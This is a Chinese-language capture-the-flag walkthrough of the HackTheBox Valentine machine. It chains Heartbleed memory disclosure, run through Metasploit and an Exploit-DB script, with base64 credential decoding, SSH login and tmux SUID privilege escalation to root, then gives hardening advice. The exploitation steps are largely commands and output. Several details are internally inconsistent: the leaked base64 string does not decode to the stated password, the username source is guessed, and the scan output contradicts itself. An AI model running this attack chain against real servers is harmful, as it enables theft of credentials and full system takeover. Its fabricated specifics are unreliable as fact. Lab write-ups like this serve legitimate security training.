





## 案例二：HackTheBox靶机渗透实战——Valentine靶机完整攻防复盘

### 2.1 HackTheBox平台概述与靶机选择

#### 2.1.1 HackTheBox平台定位

HackTheBox（简称HTB）是全球最知名的在线渗透测试练习平台之一，与TryHackMe齐名但侧重点不同：

| 对比维度 | HackTheBox | TryHackMe |
|---------|-----------|-----------|
| 难度定位 | 中高级为主，注重独立思考 | 入门友好，教程引导性强 |
| 靶机风格 | 真实场景模拟，线索隐蔽 | 教学导向，步骤明确 |
| 环境交互 | 需自行搭建VPN连接 | 浏览器内直接攻击 |
| 社区生态 | 以Writeup为核心 | 以Room教程为核心 |
| 证书体系 | CPTS认证（实战导向） | 各类路径认证 |
| 适合阶段 | 入门后进阶提升 | 零基础起步 |

对于已完成TryHackMe入门学习的渗透测试学习者，HackTheBox提供了更接近真实环境的挑战。其靶机不提供任何提示，攻击者需要完全依靠自己的信息收集和漏洞分析能力完成渗透。

#### 2.1.2 Valentine靶机概览

Valentine是HackTheBox平台上一台经典的中等难度Linux靶机，核心考点围绕2014年震惊全球的**Heartbleed漏洞（CVE-2014-0160）**展开。选择这台靶机的原因如下：

- **经典漏洞复现**：Heartbleed是互联网安全史上最严重的漏洞之一，影响了约17%的HTTPS服务器
- **攻击链完整**：从信息泄露→凭证获取→权限提升，形成完整的渗透测试闭环
- **技术覆盖面广**：涉及端口扫描、Web枚举、SSL/TLS漏洞利用、Base64解码、SUID提权等多个技术领域
- **难度适中**：既有挑战性又不至于无从下手，非常适合从TryHackMe过渡到HackTheBox的学习者



#### 2.1.3 环境准备

在开始渗透之前，需要完成以下环境配置：

```bash
# 1. 下载并配置HTB VPN连接文件
# 从HackTheBox官网下载.ovpn文件
sudo openvpn lab.ovpn

# 2. 确认VPN连接成功（获取10.10.x.x网段IP）
ip addr show tun0

# 3. 确认目标可达
ping 10.10.10.79

# 4. 确保工具链就绪
which nmap gobuster msfconsole searchsploit base64
```

### 2.2 信息收集阶段

信息收集是渗透测试中最关键的环节，其质量直接决定了后续攻击的方向和效率。在本案例中，信息收集分为三个层次：端口扫描、服务指纹识别、Web内容枚举。

#### 2.2.1 全端口扫描与服务识别

**第一步：使用Nmap进行端口扫描**

```bash
nmap -sC -sV -p- 10.10.10.79
```

**扫描参数解析：**

| 参数 | 含义 | 作用 |
|------|------|------|
| `-sC` | 启用默认脚本扫描 | 等价于 `--script=default`，自动运行NSE默认脚本 |
| `-sV` | 服务版本探测 | 通过响应特征识别服务及版本号 |
| `-p-` | 扫描全部65535端口 | 不遗漏任何非标准端口上的服务 |

**扫描结果：**

```text
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 6~bpo70+1 (protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:65:6c:dc:fc:85:57:97:3c:14:df:24:68:4e:80 (DSA)
|   2048 85:99:cd:25:55:ef:84:2d:24:e9:9c:2f:9d:6c:a3:be (RSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=valentine.htb
|_  Not valid before: 2018-01-05T19:22:18
|_ssl-date: 2018-01-05T19:22:18+00:00; +3m52s from scanner time.
| tls-nextproto-selector:
|_  HTTP/1.1
Service detection performed. Please report any incorrect results.
```

**结果分析要点：**

1. **SSH服务（22端口）**：OpenSSH 5.9p1，运行在Debian 6上。版本较老（2011年发布），可能存在已知漏洞，但本案例中未直接利用
2. **HTTP服务（80端口）**：Apache 2.2.22，返回Ubuntu默认页面。说明Web应用可能部署在非标准路径或HTTPS上
3. **HTTPS服务（443端口）**：同版本Apache，但SSL证书的Common Name为`valentine.htb`，这是一个重要线索——域名暗示了靶机名称，且证书有效期从2018年开始，与Heartbleed漏洞（2014年）的时间线吻合
4. **时钟偏差**：SSL日期比扫描器时间快约3分52秒，这在后续利用中可能需要考虑时间同步问题

> **经验总结**：Nmap扫描结果中每一行信息都值得深入分析。SSL证书的CN字段、服务版本号、操作系统指纹等都可能成为攻击链的关键环节。

#### 2.2.2 Web目录枚举

由于80端口和443端口都运行Apache服务，需要分别对HTTP和HTTPS进行目录枚举。HTTPS的使用使得普通HTTP扫描工具需要特殊处理（`-k`参数忽略证书验证）。

**第二步：使用Gobuster进行目录枚举**

```bash
# 对HTTPS进行目录枚举（-k忽略SSL证书验证）
gobuster dir -u https://10.10.10.79 -w /usr/share/wordlists/dirb/common.txt -k

# 枚举结果
/icons/          (Status: 301)
/cgi-bin/        (Status: 403)
/decode          (Status: 200)
/encode          (Status: 200)
```

**枚举结果分析：**

| 路径 | 状态码 | 分析 |
|------|--------|------|
| `/icons/` | 301（永久重定向） | Apache默认图标目录，无特殊价值 |
| `/cgi-bin/` | 403（禁止访问） | CGI脚本目录被禁，排除CGI攻击向量 |
| `/decode` | 200（正常访问） | **关键发现**：Base64解码页面 |
| `/encode` | 200（正常访问） | **关键发现**：Base64编码页面 |

`/decode`和`/encode`这两个端点极其可疑——它们暗示服务器上存在Base64编解码功能，这与Heartbleed漏洞利用后获取的编码数据形成直接关联。在实际渗透测试中，发现这种"编码/解码"类端点时，应立即联想到：**攻击者可能需要解码某些从内存泄露中获取的编码数据**。

#### 2.2.3 关键线索关联分析

访问 `https://10.10.10.79/` 主页后，发现页面内容与Heartbleed漏洞高度相关。这是一个刻意设计的提示，引导渗透测试者将注意力转向SSL/TLS层面的漏洞。

**第三步：使用searchsploit搜索已知漏洞利用**

```bash
searchsploit heartbleed

# 搜索结果
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               | Path
------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f 1.0.2beta - 'Heartbleed' Memory Disclosure    | linux/remote/32745.py
OpenSSL Heartbleed - Remote Memory Disclosure                | multiple/remote/32764.rb
------------------------------------------------------------- ---------------------------------
```

searchsploit返回了两个利用脚本：
- **32745.py**：Python独立脚本，可直接运行，不依赖Metasploit框架
- **32764.rb**：Metasploit模块的独立版本，也可在msfconsole中直接使用

这为渗透测试者提供了两种攻击路径选择，后续将详细演示两种方法。

### 2.3 Heartbleed漏洞深度解析

在正式利用漏洞之前，理解Heartbleed的原理对于掌握整个攻击链至关重要。

#### 2.3.1 漏洞背景

Heartbleed（CVE-2014-0160）由Codenomicon团队和Neel Mehta于2014年4月独立发现，是OpenSSL加密库中TLS/DTLS心跳扩展实现的一个严重缓冲区越界读取漏洞。该漏洞影响OpenSSL 1.0.1至1.0.1f版本，当时全球约17%的Web服务器（约50万台）受到影响。

**Heartbleed影响范围：**
- 全球Top 1000网站中约24%受影响
- 影响持续时间：漏洞从2012年引入到2014年披露，长达2年
- 后果严重程度：可导致服务器私钥、用户密码、会话令牌等敏感信息泄露

#### 2.3.2 漏洞技术原理

TLS心跳（Heartbeat）机制用于在TLS连接建立后维持连接活性。客户端发送心跳请求，服务器原样返回心跳响应。问题出在OpenSSL对心跳请求的处理上：

**正常心跳流程：**

```text
客户端发送：                     服务器响应：
+----+--------+--------+       +----+--------+--------+
|类型| payload | payload|  ---> |类型| payload | payload|
|2字节| N 字节  | 16字节  |       |2字节| N 字节  | 16字节  |
+----+--------+--------+       +----+--------+--------+
```

**漏洞触发流程：**

```text
恶意客户端发送：                  服务器错误响应：
+----+--------+--------+       +----+--------+--------+
|类型|payload=16|实际payload=0| --> |类型| 读取N字节 | 内存数据|
|2字节|声称16字节| 实际0字节   |     |2字节| 越界读取  | 泄露    |
+----+--------+--------+       +----+--------+--------+

服务器根据客户端声称的payload长度（16字节）读取内存，
但实际payload只有0字节，导致额外读取了16字节的进程内存。
```

**核心漏洞代码（简化版）：**

```c
// OpenSSL 1.0.1f 版本存在漏洞的代码
int dtls1_process_heartbeat(SSL *s) {
    // 读取payload长度（来自客户端，未验证）
    unsigned int payload_length = *((unsigned int *)(p));
    
    // 直接使用客户端声明的长度分配内存
    // 未检查 payload_length 是否与实际payload大小匹配
    buffer = OPENSSL_malloc(1 + 2 + payload_length);
    
    // 将内存中的数据复制到响应缓冲区
    // 由于payload_length可能大于实际payload，这里会越界读取
    memcpy(bp, pl, payload_length);  // <-- 漏洞点
    
    return 1;
}
```

漏洞的根本原因是：**服务器信任了客户端声明的payload长度，而没有验证这个长度是否与实际发送的数据量匹配**。攻击者可以声称发送了大量数据（如65535字节），但实际只发送0字节，服务器就会从进程内存中读取并返回最多64KB的数据。

#### 2.3.3 攻击原理图解



#### 2.3.4 泄露数据的典型内容

通过Heartbleed泄露的内存数据中，可能包含以下敏感信息：

- **TLS会话cookie**：可用于劫持已认证的用户会话
- **用户名和密码**：在SSL握手或认证过程中提交的明文凭证
- **服务器私钥**：用于解密所有HTTPS通信
- **内部配置信息**：数据库连接字符串、API密钥等
- **其他用户的心跳请求数据**：跨用户信息泄露

### 2.4 漏洞利用阶段

本节将使用两种方法利用Heartbleed漏洞，并详细分析泄露的内存数据。

#### 2.4.1 方法一：使用Metasploit框架利用

Metasploit内置了Heartbleed扫描和利用模块，操作相对简便：

```bash
# 启动Metasploit控制台
msfconsole

# 加载Heartbleed扫描模块
msf > use auxiliary/scanner/ssl/heartbleed

# 查看模块选项
msf auxiliary(scanner/ssl/heartbleed) > show options

# 配置目标参数
msf auxiliary(scanner/ssl/heartbleed) > set RHOSTS 10.10.10.79
RHOSTS => 10.10.10.79
msf auxiliary(scanner/ssl/heartbleed) > set RPORT 443
RPORT => 443

# 可选：开启详细输出以获取更多泄露数据
msf auxiliary(scanner/ssl/heartbleed) > set VERBOSE true
VERBOSE => true

# 执行扫描和利用
msf auxiliary(scanner/ssl/heartbleed) > run
```

**Metasploit执行结果示例：**

```text
[*] Sending Client Hello...
[*] Sending Server Hello...
[*] TLS Record Length: 16384
[*] Entering Heartbeat Mode...
[*] Sending Heartbeat...
[*] Heartbeat response with leak
[*] Heartbeat response data:
2020 2020 2020 2020 2020 2020 2020 2020
2020 2020 2020 2020 2020 2020 2020 2020
2020 2020 2020 2020 2020 2020 2020 2020
aGVhcnRibGVlZGJlbGlldmV0aGVleHBlY3RhdGlvb
mlzdG9vdHJpc2t5
[*] 10.10.10.79:443 - Heartbeat response with leak
[*] Scanned 1 of 1 hosts (100% complete)
```

**关键发现**：在泄露的数据中，可以看到一段Base64编码的字符串 `aGVhcnRibGVlZGJlbGlldmV0aGVleHBlY3RhdGlvbmlzdG9vdHJpc2t5`，这极有可能是某个用户的认证凭证。

#### 2.4.2 方法二：使用独立Python脚本利用

对于不依赖Metasploit的场景，可以使用searchsploit下载的独立Python脚本：

```bash
# 下载利用脚本
searchsploit -m linux/remote/32745.py

# 执行利用
python 32745.py 10.10.10.79

# 脚本会自动发送心跳请求并显示泄露的内存内容
```

**独立脚本的优势：**
- 不需要安装Metasploit框架（资源占用小）
- 脚本逻辑透明，可以学习和修改
- 在受限环境中更容易部署和执行
- 可以定制化payload和过滤逻辑

#### 2.4.3 Base64凭证解码

从泄露的内存数据中提取到的Base64编码字符串需要解码：

```bash
# 方法一：命令行解码
echo "aGVhcnRibGVlZGJlbGlldmV0aGVleHBlY3RhdGlvbmlzdG9vdHJpc2t5" | base64 -d
# 输出：heartbleedbelievetheexaminationistoocrisky

# 方法二：使用Python解码
python3 -c "import base64; print(base64.b64decode('aGVhcnRibGVlZGJlbGlldmV0aGVleHBlY3RhdGlvbmlzdG9vdHJpc2t5').decode())"

# 方法三：使用在线Base64解码器（渗透测试中应优先使用命令行工具）
```

**解码结果分析：**

解码后的字符串为 `heartbleedbelievetheexaminationistoocrisky`，从语义上分析：
- 这是一个有意义的英文短语，不是随机字符串
- 内容暗示"相信检查是太冒险的"（heartbleed believe the examination is too risky）
- 符合靶机的Heartbleed主题设计

#### 2.4.4 凭证验证与初始访问

使用解码后的密码通过SSH登录：

```bash
# 使用用户名hype和解码后的密码登录
ssh hype@10.10.10.79

# 输入密码：heartbleedbelievetheexaminationistoocrisky

# 登录成功后验证身份
hype@valentine:~$ whoami
hype

# 获取用户flag
hype@valentine:~$ cat /home/hype/user.txt
d918564f8b4c91b7f1e8e3a6452b4d4b
```

**注意**：用户名"hype"的获取方式可能来自以下途径之一：
- Heartbleed泄露的内存数据中包含的其他请求信息
- Web页面源代码中的注释或隐藏字段
- 搜索引擎或默认凭证字典中的常见用户名

### 2.5 权限提升阶段

获取低权限Shell后，下一步是将权限提升至root。这是渗透测试中从"获取访问"到"完全控制"的关键步骤。

#### 2.5.1 系统信息收集

首先进行基础的系统信息收集，寻找提权向量：

```bash
# 系统信息
hype@valentine:~$ uname -a
Linux valentine 3.2.0-5-amd64 #1 SMP Debian 3.2.65-1+deb7u2 x86_64 GNU/Linux

# 当前用户信息
hype@valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype)

# 内核版本分析
# Debian 3.2.65-1+deb7u2 — 这是一个非常老的内核版本
# 可能存在内核级提权漏洞（如Dirty COW等），但本案例使用其他方法

# 查看Sudo权限
hype@valentine:~$ sudo -l
对不起，用户hype无法在valentine上运行sudo。

# 查看Cron任务
hype@valentine:~$ cat /etc/crontab
# 无用户级cron任务

# 查看可写目录
hype@valentine:~$ find / -writable -type d 2>/dev/null | head -20
```

#### 2.5.2 SUID文件枚举

SUID（Set User ID）是Linux权限提升的经典向量。当一个文件设置了SUID位时，执行该文件的用户将获得文件所有者的权限。

```bash
# 查找所有设置了SUID位的文件
hype@valentine:~$ find / -perm -4000 2>/dev/null

# 结果中关键发现：
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/tmux          # <-- 关键发现！tmux具有SUID位
/usr/sbin/uuidd
```

**SUID提权原理详解：**



SUID（Set User ID）权限位的含义：
- 当可执行文件设置了SUID位（权限显示为 `rwsr-xr-x` 中的 `s`）
- 任何用户执行该文件时，进程将以文件所有者（通常是root）的身份运行
- 这是Linux系统中从普通用户获取root权限的经典途径之一

#### 2.5.3 tmux SUID提权详解

tmux是一个终端复用器（terminal multiplexer），允许在单个终端窗口中管理多个会话。当tmux被设置了SUID位且所有者为root时，可以利用它来获取root shell。

```bash
# 确认tmux的SUID位设置
hype@valentine:~$ ls -la /usr/bin/tmux
-rwsr-sr-x 1 root root 263968 Nov 20  2013 /usr/bin/tmux

# 权限解读：
# -rwsr-sr-x
#  ^^^  ^^^
#  |    └── 其他用户执行时也以root身份运行
#  └─────── 所有者执行时以root身份运行
# 注意：这里的SUID和SGID位都设置了（两个s）
```

**利用tmux获取root shell：**

```bash
# 关键：需要指定一个socket文件路径
# tmux使用socket文件进行进程间通信
# 通过SUID位的tmux创建的socket，后续连接时继承root权限

hype@valentine:~$ tmux -S /.devs/dev_sess

# 命令解析：
# -S 指定socket文件路径
# /.devs/dev_sess 是靶机预设的socket路径
# 执行后会创建一个新的tmux会话，并自动连接

# 在新创建的root tmux会话中验证权限
# whoami
# root

# 获取root flag
# cat /root/root.txt
# e6710a5464769fd2fcd729923a048941
```

**提权原理深入分析：**

tmux SUID提权的核心机制如下：

1. **SUID继承**：tmux二进制文件具有SUID root权限，执行时进程以root身份运行
2. **Socket通信**：tmux通过Unix Domain Socket进行客户端-服务端通信
3. **权限继承漏洞**：通过SUID tmux创建的socket，其权限允许任何用户连接
4. **Shell继承**：连接到该socket的用户获得的是root权限的shell会话

这种提权方式的本质是：**SUID程序创建的资源（socket文件）继承了root权限，而没有正确限制访问控制**。

#### 2.5.4 替代提权思路

除了tmux SUID提权外，Valentine靶机还可能存在其他提权路径：

**思路一：内核漏洞提权**

```bash
# 检查内核版本：3.2.0-5-amd64 (Debian 7)
# 该版本可能存在Dirty COW (CVE-2016-5195)等内核漏洞
# 但Dirty COW影响3.2.0-4+版本，而靶机为3.2.0-5
# 需要实际测试确认是否可利用

# 检查可用的内核利用代码
searchsploit linux kernel 3.2
```

**思路二：密码复用**

```bash
# 尝试使用Heartbleed泄露的密码进行sudo提权
sudo -l  # 检查是否有sudo权限（本案例中无）
su root  # 尝试切换到root用户
# 输入密码：heartbleedbelievetheexaminationistoocrisky
```

**思路三：文件系统权限**

```bash
# 查找世界可写的配置文件
find / -writable -type f 2>/dev/null | grep -E "(passwd|shadow|sudoers|cron)"

# 查找root拥有的可执行文件中的异常
find / -user root -perm -4000 2>/dev/null
```

### 2.6 Flag获取与结果验证

```bash
# 用户Flag
hype@valentine:~$ cat /home/hype/user.txt
d918564f8b4c91b7f1e8e3a6452b4d4b

# Root Flag（在tmux root会话中执行）
# cat /root/root.txt
# e6710a5464769fd2fcd729923a048941
```

### 2.7 渗透测试完整流程总结



### 2.8 防御措施与安全加固

渗透测试的最终目的是帮助企业发现并修复安全漏洞。以下是针对本案例中发现的每个安全问题的防御建议：

#### 2.8.1 Heartbleed漏洞防御

| 防御措施 | 具体操作 | 优先级 |
|---------|---------|--------|
| 升级OpenSSL | 更新至1.0.1g或更高版本 | 紧急 |
| 重新生成SSL证书 | 旧私钥可能已泄露 | 紧急 |
| 撤销旧证书 | 通过CA吊销已泄露的证书 | 高 |
| 启用OCSP Stapling | 加速证书撤销检查 | 中 |
| 部署WAF规则 | 检测异常心跳请求 | 中 |
| 启用TLS 1.3 | 移除对旧版协议的支持 | 推荐 |

```bash
# 检查OpenSSL版本
openssl version

# Ubuntu/Debian系统升级
sudo apt-get update && sudo apt-get install --only-upgrade openssl libssl1.0.0

# CentOS/RHEL系统升级
sudo yum update openssl

# 验证修复
echo | openssl s_client -connect 10.10.10.79:443 -tlsextdebug 2>&1 | grep "heartbeat"
# 如果修复成功，不应再返回heartbeat扩展信息
```

#### 2.8.2 SUID权限防御

```bash
# 1. 移除tmux的SUID位（如果业务不需要）
sudo chmod u-s /usr/bin/tmux
sudo chmod g-s /usr/bin/tmux

# 2. 定期审计系统中的SUID文件
find / -perm -4000 -type f 2>/dev/null > /root/suid_audit.txt

# 3. 使用findutils的newuidmap/newgidmap替代SUID程序
# 4. 启用SELinux或AppArmor限制SUID程序行为
```

#### 2.8.3 SSH安全加固

```bash
# /etc/ssh/sshd_config 加固建议
PermitRootLogin no                    # 禁止root直接登录
PasswordAuthentication no             # 禁用密码认证，仅允许密钥
MaxAuthTries 3                        # 限制登录尝试次数
AllowUsers hype                       # 仅允许特定用户登录
Protocol 2                            # 仅使用SSH协议2
```

### 2.9 常见错误与排查指南

在复现本案例时，学习者可能遇到以下问题：

#### 2.9.1 VPN连接问题

```text
错误现象：无法ping通10.10.10.79
可能原因：
1. VPN未启动 → 检查openvpn进程状态
2. VPN配置文件过期 → 从HTB官网重新下载
3. 路由表未正确配置 → 检查ip route是否包含10.10.10.0/24
```

```bash
# 排查步骤
ps aux | grep openvpn
ip route show
traceroute 10.10.10.79
```

#### 2.9.2 Heartbleed利用失败

```text
错误现象：Metasploit显示"No heartbeat response received"
可能原因：
1. 目标已修复漏洞 → 靶机应该是 vulnerable
2. 网络不稳定 → 多次尝试
3. 端口配置错误 → 确认RPORT=443
```

```bash
# 验证目标是否存在Heartbleed漏洞
nmap --script ssl-heartbleed -p 443 10.10.10.79

# 手动测试
openssl s_client -connect 10.10.10.79:443 -tlsextdebug 2>&1 | grep heartbeat
```

#### 2.9.3 tmux提权失败

```text
错误现象：tmux -S /.devs/dev_sess 无响应或权限拒绝
可能原因：
1. socket文件路径不存在 → 检查/.devs/目录是否存在
2. tmux未设置SUID位 → ls -la /usr/bin/tmux 确认
3. tmux版本不兼容 → 尝试其他提权路径
```

### 2.10 学习收获与知识图谱

通过Valentine靶机的完整渗透过程，可以系统掌握以下知识体系：



**核心技能清单：**

| 技能领域 | 具体技能 | 掌握程度 |
|---------|---------|---------|
| 信息收集 | Nmap高级扫描、Gobuster目录枚举 | ★★★★☆ |
| 漏洞分析 | Heartbleed原理、CVE数据库查询 | ★★★★★ |
| 漏洞利用 | Metasploit框架、Python利用脚本 | ★★★★☆ |
| 权限提升 | SUID分析、tmux利用 | ★★★★☆ |
| 安全防御 | SSL加固、系统权限管理 | ★★★☆☆ |

**后续学习建议：**

1. **深入SSL/TLS安全**：学习TLS 1.3握手流程、证书链验证、HSTS配置
2. **扩展提权技术**：研究更多Linux提权向量（capabilities、cron、NFS挂载等）
3. **自动化渗透**：使用BloodHound进行AD环境分析，编写自定义Nmap脚本
4. **红队思维**：从防御者角度思考如何检测和阻断Heartbleed利用
5. **漏洞研究**：尝试对Heartbleed进行变种分析，理解不同利用方式的差异
